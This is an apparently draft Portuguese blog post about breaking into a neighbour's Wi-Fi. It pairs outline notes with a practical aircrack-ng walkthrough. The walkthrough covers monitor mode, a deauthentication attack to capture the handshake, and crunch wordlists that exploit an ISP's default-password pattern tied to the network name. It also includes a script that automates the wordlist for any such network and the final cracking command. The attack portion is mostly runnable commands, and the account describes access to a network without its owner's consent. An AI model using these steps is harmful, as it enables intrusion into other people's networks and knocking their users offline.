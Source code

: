 ```yaml
---
title: Invadindo rede wifi na prática
description: Mostrando como hackeei a rede wifi de uma vizinha da minha mãe
tags: ["Wifi Hacking", "Shell Script", "Brute Force"]
categories: ["SecLab", "Way Of Security"]
pin: true
draft: true
date: 2023-08-25 08:19:12 +02:00
author: matheus
---
```


# Hackeando redes sem fio na prática

Neste artigo vou mostrar para vocês como funciona na prática a invasão de uma rede wireless, e como foi minhas primeiras experiências hackeando redes wifi reais.

Será considerado que você já sabe do básico de redes wireless, como funcionam os protocolos e conceitos, pois eles não serão explicados aprofundadamente nesta publicação. Para isso, teremos uma postagem específica que correrá por toda essa base de forma detalhada.

### O que esperar desta publicação

Nesta postagem será esperado algumas explicações mais _técnicas_ - mas não aprofundadas - dos passos e ferramentas utilizadas no processo, pois o foco é mostrar a prática de uma **invasão em redes wireless** alheias utilizando pacote **Aircrakc-ng**, e *como foi a minha experiência descobrindo uma falha nas credenciais padrões de roteadores de uma grande operadora*, que me permitia **descobrir e ter acesso a qualquer rede que não tivesse alterado as credencias padrões**.

>
>*Vale já esclarecer que o intuito deste tópico é totalmente educativo e não me responsabilizo por nenhum ato de terceiro.* 

>*Deixo* claro *também que, apesar dos pesares, nenhum ato de intenção malígna foi feito e a* operadora *em questão já atualizou sua forma de padronização de credenciais. Por este motivo resolvi repostar sobre esta falha protocolar, visto que muitos usuários ainda podem estar utilizando e ficando vulneráveis e precisam se atentar a isso.*
>

## Contextualização: Como invadi a rede da minha vizinha
Ambientificação de wifi hacking na prática. 

--talvez falar resumidamente e rapidamente sobre alguns conceitos -não aprofundados- de rede wireless, como a forma que funciona a conexão, o que é handshake, etc - e deixando claro que outro material será dedicado para explicar tudo de forma mais aprofundada - podendo ter um CallToAction para a publicação futuramente.
--falando sobre as ferramentas, em quais redes foram testadas e introduzindo tudo, explicando todo o contexto até a parte em que a rede da vizinha também era vulnerável. Falar sobre a claro ter pedido para tirar do ar o script.
(resumo completo sem parte tecnica/pratica)

### Etapa de Reconhecimento
falar sobre toda a etapa de recon parte a parte, sobre reconhecimento da padronização das credenciais da rede e das redes que podem estar vulneráveis.


### Etapa de Testes de Invasão
falar sobre os testes que são feitos para criação da wordlist até a parte para conseguir handshake.

### Etapa de Exploração
Uma vez conseguindo o que for necessário, fazer a parte final com aircrack de testar a wordlist na rede para a quebra e descoberta da senha.

### Etapa de pós-exploração de uma situação real (alerta de perígo)
nessa parte que temos os perigos de invasão... pode ser comentado sobre possíveis ataques de DNS, MITM, etc. lembrando: tudo apenas para mostrar os perigos de ter um invasor na mesma rede, sem mostrar nada prático nessa parte.

## Conclusão 
Falando mais sobre redes wireless vulneráveis, mudança das credenciais padrão e os vários motivos para isso, além dos possiveis problemas q isso pode gerar, tendo um CallToAction para a publicação 'perigos da wifi'.

# Passo a passo prático

> Todo o processo foi feito dentro de um mesmo diretório

### Criando documento para salvar informação útil

```bash
nano < nome >
```
`Exemplo: nano infos`

### Anotar sobre a interface de rede

```bash
iwconfig
```

### Ativar modo de monitoramento

```bash
sudo airmon-ng start < interface >
```
`Exemplo: sudo airmon-ng start wlp1s0` -> resultando na interface em modo mon: `wlp1s0mon`

Utilize o "stop" para desativar, além de pode utilizar o comando com "status" para verificar se está ativado ou desativado. 
 > Lembre-se de que o modo de monitoramento te desconecta da sua rede.

### Monitorar redes wi-fi próximas

```bash
sudo airodump-ng < interfacemon >
```
`Exemplo: sudo airodump-ng wlp1s0mon`

 Não esquecer de anotar as informações adquiridas nesta parte no seu documento, como ESSID (nome da rede), BSSID (endereço mac/físico) e o CH (canal).

### Monitoramento específico com captura de '.cap'

```bash
sudo airodump-ng --bssid < mac > -c < CH > -w < nome > < interfacemon >
```

ou

```bash
sudo airodump-ng --essid < wifi > -c < CH > -w < nome > < interfacemon >
```

ou

```bash
sudo airodump-ng --essid < nomeWiFi > -w < nomeArquivo > < interfacemon >
```

`Exemplo: sudo airodump-ng --essid KL4N0_2G5G672U -c 1 -w APtura wlan0mon`

 Recomendado ser mais específico, por exemplo, deixar claro o canal de funcionamento e o endereço físico. 
 
 Agora a tabela de monitoramento vai ser apenas na rede especificada, como poderá ser visto na tabela de cima, e com a tabela de baixo mostrando os dispositivos que se comunicam com esta rede. 
 
 > Agora pode existir algum tipo de ataque direto em um usuário de uma rede, por exemplo para ser desconectado, ou numa rede inteira que afetaria todos os conectados nela.
 
 Colocar o BSSID do(s) alvo(s) no documento e abra uma outra sessão/aba no terminal.

### Ataque de desautenticação de usuário(s)

```bash
sudo aireplay-ng --deauth < númeroPacotes > -a < bssidAlvo > < interfacemon >
```
 Usando `aireplay` enquanto roda o monitoramento dessa rede em outra sessão do terminal / em segundo plano, pode ser visto o alvo sendo desconectado, sendo forçado a se reconectar e a **captura do handshake**. Quando a captura ocorrer, então o processo foi finalizado.

### Criação da wordlist das redes vulneráveis para força bruta

```bash
crunch 8 8 ABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890 -t @@PADRAO -o nomeWL
```
 Rede alvo com padrão vulnerável -> essid: `KL4N0_2G5G672U` -> os 6 últimos dígitos também são os últimos 6 da senha (de 8 dígitos) -> 5G672U

 `Exemplo: crunch 8 8 ABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890 -t @@5G672U -o wl`

> É possível reconhecer que é fácil de automatizar isso em shell script, né? bem fácil... tendo em vista que o código padrão q é usado no nome e na senha nunca será o mesmo da de outra rede, então precisamos fazer o script funcionar de acordo com o nome da rede fornecida.

#### Automatizando a criação da wordlist

Fazendo a wordlist perfeita para as redes que seguem o mesmo padrão.

> padrão de exemplo: KL4N0_2G5G672U:xx5G672U para descobrirmos o valor de `xx`

```sh
#!/bin/bash
read -p "Digite o nome da rede alvo (essid): " essid
echo $essid | cut -d "G" -f 2 > wifi.txt && crunch 8 8 ABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890 -t @@$(cat wifi.txt) -o wl &>/dev/null && rm wifi.txt
sleep 0.35s
echo "Wordlist criada com sucesso!"
sleep 0.2s
echo "Arquivo salvo como wl"
```

### Quebrando a senha da rede sem fio alvo

```bash
sudo aircrack-ng -a2 -e < "ESSID_Rede" > < "NomeArquivoCap*" > -w < wordlist >
```

    Resultado de exemplo da rede KL4N0_2G5G672U -> Key Found! [325G672U]
    
> Não esquecer de dar o `airmon-ng stop wlp1s0mon`